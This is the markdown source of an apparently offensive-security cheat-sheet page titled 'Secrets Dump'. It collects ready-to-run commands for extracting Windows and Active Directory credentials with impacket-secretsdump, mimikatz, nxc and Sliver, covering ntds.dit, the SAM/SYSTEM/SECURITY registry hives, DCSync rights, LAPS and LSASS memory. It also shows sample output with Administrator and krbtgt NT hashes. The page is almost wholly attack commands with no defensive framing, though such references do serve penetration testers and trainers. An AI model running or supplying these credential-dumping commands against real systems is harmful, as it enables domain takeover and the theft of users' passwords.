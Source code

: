 ```yaml
---
title: "Secrets Dump"
date: 2025-7-18
tags: ["SAM", "SYSTEM", "SECURITY", "Dcsync", "Impacket", "secretsdump", "Domain Controller", "Credential Dumping", "Active Directory", "Windows", "Ntds.Dit", "Hive", "LAPS"]
---
```


### Convert ntds.dit to .sqlite

```console
ntdsdotsqlite ntds.dit --system SYSTEM -o ntds.sqlite
```

<small>*Ref: [ntdsdotsqlite](https://github.com/almandin/ntdsdotsqlite)*</small>

### With ntds.dit and SYSTEM hive

{{< tab set1 tab1 >}}impacket{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
impacket-secretsdump -ntds ntds.dit -system system LOCAL
```

```console {class="sample-code"}
$ impacket-secretsdump -ntds ntds.dit -system system LOCAL
Impacket v0.12.0.dev1+20240730.164349.ae8b81d7 - Copyright 2023 Fortra

[*] Target system bootKey: 0x73d83e56de8961ca9f243e1a49638393
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 35640a3fd5111b93cc50e3b4e255ff8c
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:7f82cc4be7ee6ca0b417c0719479dbec:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d3c02561bba6ee4ad6cfd024ec8fda5d:::
---[SNIP]---
[*] Cleaning up...
```

{{< /tabcontent >}}

### With SAM, SYSTEM and SECURITY Hives

{{< tab set2 tab1 >}}impacket{{< /tab >}}
{{< tab set2 tab2 >}}mimikatz{{< /tab >}}
{{< tab set2 tab3 >}}sliver{{< /tab >}}
{{< tabcontent set2 tab1 >}}

```console
impacket-secretsdump -sam SAM -security SECURITY -system SYSTEM LOCAL
```

{{< /tabcontent >}}
{{< tabcontent set2 tab2 >}}

```console
reg save HKLM\SYSTEM system
```

```console
reg save HKLM\security security
```

```console
reg save hklm\sam sam
```

```console
.\mimikatz.exe "lsadump::secrets /system:SYSTEM /security:SECURITY"
```

```console
.\mimikatz.exe "lsadump::sam /system:SYSTEM /sam:SAM"
```

{{< /tabcontent >}}
{{< tabcontent set2 tab3 >}}

```console
reg save HKLM\SYSTEM system
```

```console
reg save HKLM\security security
```

```console
reg save hklm\sam sam
```

```console
mimikatz -- '"lsadump::secrets /system:C:\SYSTEM /security:C:\SECURITY"'
```

```console
mimikatz -- '"lsadump::sam /system:C:\SYSTEM /sam:C:\SAM"'
```

{{< /tabcontent >}}


### With DCsync Right

{{< tab set3 tab1 >}}impacket{{< /tab >}}
{{< tab set3 tab2 >}}nxc{{< /tab >}}
{{< tab set3 tab3 >}}mimikatz{{< /tab >}}
{{< tabcontent set3 tab1 >}}

```console
# Password
impacket-secretsdump '<USER>:<PASSWORD>@<TARGET>'
```

```console
# NTLM
impacket-secretsdump '<DOMAIN>/<USER>@<DC>' -hashes ':<HASH>'
```

```console
# Kerberos
impacket-secretsdump -k -no-pass -dc-ip <DC_IP> <DC>
```

{{< /tabcontent >}}
{{< tabcontent set3 tab2 >}}

```console
nxc smb <TARGET> -d <DOMAIN> -u '<USER>' -H <HASH> --ntds
```

{{< /tabcontent >}}
{{< tabcontent set3 tab3 >}}

```console
.\mimikatz.exe "lsadump::dcsync /all" "exit"
```

```console
# Dump old creds
.\mimikatz.exe "lsadump::dcsync /user:<DOMAIN>\<USER> /history" "exit"
```

{{< /tabcontent >}}

### With LAPS Password

{{< tab set4 tab1 >}}impacket{{< /tab >}}
{{< tabcontent set4 tab1 >}}

```console
impacket-secretsdump 'administrator:<PASSWORD>@<TARGET_DOMAIN>'
```

{{< /tabcontent >}}

### With NT AUTHORITY\SYSTEM / Administrator

{{< tab set5 tab1 >}}mimikatz{{< /tab >}}
{{< tab set5 tab2 >}}sliver{{< /tab >}}
{{< tabcontent set5 tab1 >}}

```console
.\mimikatz.exe "sekurlsa::logonpasswords"
```

```console
.\mimikatz.exe "lsadump::lsa /patch"
```

{{< /tabcontent >}}
{{< tabcontent set5 tab2 >}}

```console
mimikatz -- '"sekurlsa::logonpasswords"'
```

```console
mimikatz -- '"lsadump::lsa /patch"'
```

{{< /tabcontent >}}